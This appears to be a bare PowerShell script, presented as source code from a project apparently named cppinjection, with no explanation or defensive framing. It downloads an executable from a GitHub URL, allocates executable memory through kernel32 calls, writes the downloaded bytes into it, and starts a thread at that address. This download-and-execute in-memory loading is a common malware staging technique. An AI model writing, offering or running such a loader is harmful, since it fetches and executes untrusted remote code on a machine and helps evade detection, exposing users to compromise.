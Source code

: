 $url = "https://github.com/scinne/cppinjection/raw/refs/tags/test/578d2bfa.exe"
$exeBytes = Invoke-WebRequest -Uri $url -OutFile "program.exe"; $exeBytes = [System.IO.File]::ReadAllBytes("program.exe")


$kernel32 = Add-Type -Name "Kernel32" -Namespace "WinAPI" -MemberDefinition @"
    using System;
    using System.Runtime.InteropServices;
    public class Kernel32 {
        [DllImport("kernel32.dll", SetLastError = true)]
        public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
        [DllImport("kernel32.dll", SetLastError = true)]
        public static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, uint nSize, out uint lpNumberOfBytesWritten);
        [DllImport("kernel32.dll", SetLastError = true)]
        public static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, out IntPtr lpThreadId);
        [DllImport("kernel32.dll")]
        public static extern IntPtr GetCurrentProcess();
    }
"@
$allocationSize = [uint32]$exeBytes.Length
$allocationAddress = [WinAPI.Kernel32]::VirtualAlloc([IntPtr]::Zero, $allocationSize, 0x1000, 0x40)
[WinAPI.Kernel32]::WriteProcessMemory([WinAPI.Kernel32]::GetCurrentProcess(), $allocationAddress, $exeBytes, $allocationSize, [ref]0)


[WinAPI.Kernel32]::CreateRemoteThread([WinAPI.Kernel32]::GetCurrentProcess(), [IntPtr]::Zero, 0, $allocationAddress, [IntPtr]::Zero, 0, [ref][IntPtr]::Zero)
